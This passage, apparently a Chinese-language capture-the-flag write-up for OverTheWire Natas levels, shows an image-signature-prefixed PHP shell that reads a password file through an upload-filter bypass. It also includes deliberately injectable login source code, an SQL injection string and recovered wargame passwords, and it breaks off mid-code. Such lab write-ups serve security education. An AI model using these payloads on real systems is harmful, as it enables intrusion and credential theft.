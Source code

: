 测试上传发现过滤，exif_imagetype()函数，用于检验文件是否是图片，读取一个图像的第一个字节并检查其签名，只要在php文件最前面加上图片信息签名即可绕过。

```
GIF89a
 
<?php
system('cat /etc/natas_webpass/natas14');
?>
```

Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## 15.

```
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

可以看到此处直接将输入参数username和password值拼接进SQL语句执行，那么肯定存在SQL注入了
username填入admin" or 1=1#，password填入1(随便都可以)
获得natas15密码

AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## 16. sqlmap自动化注入

```
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
```
